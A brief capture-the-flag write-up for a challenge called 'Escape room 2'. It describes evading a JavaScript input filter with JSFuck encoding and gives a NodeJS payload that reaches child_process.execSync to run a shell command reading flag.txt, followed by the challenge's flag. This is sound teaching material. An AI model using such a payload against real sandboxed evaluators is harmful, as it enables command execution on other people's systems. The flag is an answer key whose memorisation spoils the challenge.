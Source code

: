# Escape room 2

## Write-up

To bypass the filter, we can use [JSFuck](https://jsfuck.com/) which encodes Javascript/NodeJS into a mix of `!+[]()`.

The payload is:

```javascript
console.log(
  process.mainModule
    .require("child_process")
    .execSync("cat flag.txt")
    .toString()
);
```

## Flag

`flag-1e4011697d0ea15fc6a3cf37baaf2d5f`
